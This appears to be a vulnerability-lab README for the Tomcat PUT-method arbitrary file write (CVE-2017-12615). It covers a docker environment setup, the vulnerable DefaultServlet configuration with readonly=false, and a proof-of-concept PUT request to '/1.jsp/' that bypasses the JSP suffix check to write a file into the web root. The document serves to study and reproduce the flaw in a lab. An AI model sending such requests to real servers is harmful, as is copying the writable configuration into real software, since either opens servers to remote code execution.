 # Tomcat Arbitrary Write-file Vulnerability through PUT Method (CVE-2017-12615)

[中文版本(Chinese version)](README.zh-cn.md)   

Tomcat version: 8.5.19 

## Environment Setup

```
docker-compose build
docker-compose up -d
```

After successfully running the commands above, you will see the example page of Tomcat through visiting the site `http://your-ip:8080`.


## Rationale

Reference links:

- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

Tomcat sets up the write permission（readonly=false）, which leads to the result that we can write files into the server.

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Although Tomcat checks the file suffix to some extent(can't write jsp directly), we can still bypass the limitation through some file system features(such as using `/` in Linux).

## POC

Send the following packets directly and then the shell will be written into the Web root directory.

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

As follows:

![](01.png)

